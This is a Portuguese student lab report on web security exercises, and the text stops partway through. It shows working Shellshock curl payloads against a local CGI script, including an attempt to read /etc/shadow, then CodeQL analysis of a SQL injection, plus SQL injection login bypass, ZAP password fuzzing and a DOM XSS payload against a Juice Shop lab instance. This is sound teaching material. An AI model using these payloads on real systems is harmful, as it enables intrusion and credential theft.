# Module 2

-------
Grupo 5 

Ana Ferreira 45085

Gonçalo Fonseca 50185

Rúben Santos 49063

-------

# Parte A

## Exercise 2
### Ponto a) 

Neste exercício temos por objetivo criar um ficheiro dentro da pasta /tmp.

    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

Figura 1 - Criação de um ficheiro na pasta /tmp

 

### Ponto b)
Ao contrário do ponto anterior, neste ponto temos por objetivo remover um ficheiro da pasta /tmp.

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

Figura 2 - Remoção de um ficheiro na pasta /tmp

 

### Ponto c)
Neste ponto temos por objetivo saber se é possível retirar o conteúdo do ficheiro shadow "/etc/shadow" que se encontra no servidor.

Para testar este ponto tentou-se ler um ficheiro "ficheiro2" com texto no seu conteúdo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Após verificar que era possível, executou-se o código testado para o ficheiro shadow e podemos observar os resultados na Figura 3.

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

Figura 3 - Tentativa de acesso ao ficheiro shadow

 

Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos. No segundo código, nada foi apresentado.

Para garantir que o ficheiro tinha conteúdo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra Figura 4.

Figura 4 - Conteúdo do ficheiro shadow 

 
Para entender as permissões de leitura e escrita deste ficheiro, foram executados dois códigos apresentados na Figura 5. Um deles mostrou qual o USER atual e outro para saber quais as permissões do ficheiro.

 

Figura 5 - USER e permissões do ficheiro

 

Podemos concluir que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.

### Ponto d)

Geralmente pedidos HTTP GET anexam dados no URL após a marca "?". Neste ponto é questionado se este método pode ser utilizado para lançar um ataque Shellshock. 

O código seguinte foi o utilizado para executar o ataque.

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro

Na Figura 6 podemos observar o resultado do código, onde é indicado que um url não aceita espaços. 

Figura 6 - Tentativa de lançar um ataque Shellshock

 

Os espaços mencionados anteriormente são ignorados e o sistema apenas lê o que está antes dos espaços. Para corrigir este problema necessitamos de converter o espaço num código, sendo representado pelo código %20B. Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é o apresentado na Figura 7.

Figura 7 - Segunda tentativa de lançar um ataque Shellshock 

 

O problema neste caso é que o bash não converte este código num espaço literal. Pelas razões acima referidas e como foi observado, não é possível fazer o ataque através deste método.

# Parte B

## Static analysis

### Ponto 2
Neste ponto o objetivo era verificar que uma Github Action é executada para correr a plataforma CWE analytics do CodeQL quando há um evento de push no repositório. Nos subpontos a e b o CodeQL irá ser atualizado ao mudar a descrição do Workflow.
#### a)
Na Figura 8 é possivel verificar as alterações da versão de action 1 para a versão 2:

  

  

Figura 8 - Alteração da versão de action

 

#### b)
Na Figura 9 é possivel verificar a adição do código do workflow trigger.

  

  

  Figura 9 - Código do workflow trigger

 

### Ponto 3

Após executar a action e analisar os logs de output foi encontrado o comando a azul presente na Figura 10 que é utilizado pelo CodeQL Action para inicializar a base de dados de code analysis. 

Figura 10 - Inicialização da base de dados de code analysis

 

### Ponto 4

Neste ponto irá ser explorada a vulnerabilidade CWE-89. No code scanning da security está presente uma lista das diferentes vulnerabilidades detetadas na aplicação com nível decrescente de vulnerabilidade. 

Como se pode observar na Figura 4 foi pesquisada a entrada “Database query built from user-controlled sources” que apresenta uma lista de diversos ficheiros como se pode observar na Figura 11. 

Figura 11 - Vulnerabilidades de código

 
O ficheiro que iremos explorar é denominado search.ts (Figura 12).

Figura 12 - Ficheiro search

 

A vulnerabilidade detetada encontra-se na linha sublinhada na Figura 13.
Uma query SQL sem tratamento e sanitização da sintaxe SQL nos inputs do utilizador, pode levar a que estes inputs sejam interpretados como SQL em vez de dados simples de utilizador. Posto isto, algumas verificações de segurança podem ser ultrapassadas ou comandos adicionais podem ser injetados na query para modificar algo do lado do servidor ou executar operações no back-end.

  

Figura 13 - Vulnerabilidade do ficheiro search

 

Após analisar a vulnerabilidade verificamos a presença de um source que define a origem do problema, neste caso é a variável "criteria" que se encontra dentro da query pois é onde o utilizador insere informação e o sink é o comando afetado pela source, que seria a query: "`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`".

### Ponto 5

A análise estática de código pode ter erros como falsos positivos e falsos negativos.

Um falso positivo acontece quando são assinaladas vulnerabilidades que não o são. Por exemplo, utilizar o comando PreparedStatement para prevenir que o input do utilizador interfira com a estrutura da query e o CodeQL assinala nesta query uma vulnerabilidade.

Um falso negativo acontece quando uma vulnerabilidade existente não é assinalada. Um exemplo desta situação seria se a análise por parte do CodeQL for demorada e não há a possibilidade de detetar todas as vulnerabilidades em tempo útil.

## Dynamic analysis

### Ponto 6

Após colocar o endereço  http://10.62.73.125:4005 no browser, verificámos que a aplicação estava a correr devidamente, como se pode observar na Figura 14.



Figura 14 - Acesso à aplicação Juice Shop

 

### Ponto 7

Com as ferramentas do browser acedeu-se aos ficheiros javascript carregados pelo frontend. Como se pode observar na Figura 15 acedeu-se ao ficheiro "main.js" como primeira tentativa.

No ficheiro "main.js" foi encontrado o caminho para o score-board e inseriu-se no browser, concluindo o objetivo.

Figura 15 - Caminho para o score-board

 

### Ponto 8
Neste exercício foi realizado um ataque de injeção SQL sobre o formulário de Login, com alvo no administrador. 

Na tentativa de realizar login sem saber o email ou palavra passe, foi executado o comando " ' OR TRUE -- " que altera a lógica da query que recebe o input do utilizador e permite o inicio de sessão como administrador. Na Figura 17 é apresentado o sucesso do ataque.

Figura 16 - Comando a ser injetado

 

Figura 17 - Login com sucesso como administrador

 

### Ponto 9

Nesta parte do trabalho será utilizada a ferramenta Zed Attack Proxy (ZAP) que permite encontrar vulnerabilidades e explorá-las. 

#### a)

Após ter instalado a ferramenta, foi verificado se o site de exemplo estava acessível através da exploração manual, com o HUD ativo e no browser firefox. Resultando na Figura 18.

Figura 18 - Acesso ao site de exemplo

 

#### b)
De seguida acedeu-se ao website Juice Shop através da ferramenta ZAP (Figura 19). 



Figura 19 - Acesso ao site Juice Shop

 

### Ponto 10

Neste ponto é pretendido o acesso à página do utilizador administrador descobrindo a sua password através da ferramenta ZAP e da funcionalidade fuzzing. Sabe-se que a password começa com a palavra admin e que terá um sufixo com 3 números. 

Em primeiro lugar houve uma tentativa de login com a palavra "admin" seguida de 111, como demonstra a Figura 20.



Figura 20 - Tentativa de login para intersecção do ZAP

 

O pedido executado foi intercetado na ferramenta ZAP como demonstrado na Figura 21.



Figura 21 - Pedido de login na ferramenta ZAP

 

Através do fuzzing é possível testar automaticamente todas as combinações de números com 3 dígitos até chegar à que permite efetuar o login. Para executar o fuzzing, foi adicionado um payload que efetua as combinações numéricas entre 0 e 999. 



Figura 22 - Adição de payload no fuzzer

 

Após colocar o fuzzer em execução, como se pode observar na Figura 23, os valores testados estão todos com acesso sem autorização à exceção de um que indica que foi encontrada a password correta.



Figura 23 - Execução do fuzzer

 

Ao selecionar o pedido que obteve sucesso, o payload é analisado e concluiu-se que a combinação de dígitos que permite efetuar o login como administrador é "123". 



Figura 24 - Pedido fuzzer processado com sucesso

 

Como se pode observar na Figura 25, o login na aplicação foi efetuado com sucesso ao utilizar a combinação de email "admin@juice-sh-op" e password "admin123".



Figura 25 - Login com email e password

 

### Ponto 11

Neste ponto irá perceber-se como é que uma pesquisa é efetuada. Inicia-se a procura de produtos com limão e como demonstra a Figura 26, o URL é alterado automaticamente e o produto é mostrado.



Figura 26 - Pesquisa de limão com sucesso

 

De seguida foi testada a pesquisa de "Lemon1" diretamente na barra de pesquisa e não existem produtos com essa identificação.



Figura 27 - Pesquisa de Lemon1 sem sucesso

 

Como os valores inseridos na barra de pesquisa são utilizados na página, poderá haver inserção de código no componente de pesquisa com a garantia de que será executado pela aplicação e poderá ser explorada uma vulnerabilidade.

### Ponto 12

Tendo em conta a possível vulnerabilidade detetada no ponto anterior é pretendida a resolução do desafio "DOM XSS" ao injetar o texto:

    " <iframe src="javascript:alert(`xss`)"> "

É possível observar o sucesso do desafio na Figura 28.



Figura 28 - Injeção do código

 

### Ponto 13

Foi explorado o desafio "Post some feedback in another users name" utilizando o proxy do ZAP.

Para conseguir visualizar o pedido para a aplicação na ferramenta ZAP foi efetuado o preenchimento do formulário de feedback com uma resposta propositadamente errada no captcha (Figura 29).



Figura 29 - Preenchimento de formulário de feedback

 

Na Figura 30 e 31 é possível visualizar o pedido efetuado e a resposta respetiva onde é indicado que o captcha foi preenchido incorretamente.

